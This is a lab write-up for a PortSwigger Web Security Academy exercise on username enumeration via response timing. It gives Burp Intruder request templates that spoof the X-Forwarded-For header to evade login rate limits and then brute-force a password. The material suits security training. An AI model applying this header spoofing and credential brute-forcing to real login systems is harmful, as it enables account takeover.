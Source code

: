 # [Lab: Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)

## Lab

This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

Your credentials: `wiener:peter`

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Analysis

bruteforce prevention based on request IP (`X-Forwarded-For`):

- `You have made too many incorrect login attempts. Please try again in 30 minute(s).`

## Solutions

1. time-based username enumeration with intruder:

    - mode pitchfork
    - payload positions:

    ```http
    POST /login HTTP/1.1
    Host: id.web-security-academy.net
    X-Forwarded-For:§1§
    Connection: close

    username=§asterixb§&password=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
    ```

    - payload:
      - set 1: 1 -> 200
      - set 2: username wordlist
      - very long random passwor
      - which request takes longer to respond => username already exists

2. find password for existed username:

    - mode pitchfork
    - payload positions:

    ```http
    POST /login HTTP/1.1
    Host: 0a12002904af9b61c2375c91008e00e6.web-security-academy.net
    ...
    X-Forwarded-For:§1§
    Connection: close

    username=au&password=§§
    ```

    - payload:
      - set 1: 201->400
      - set 2: password wordlist

=> solved
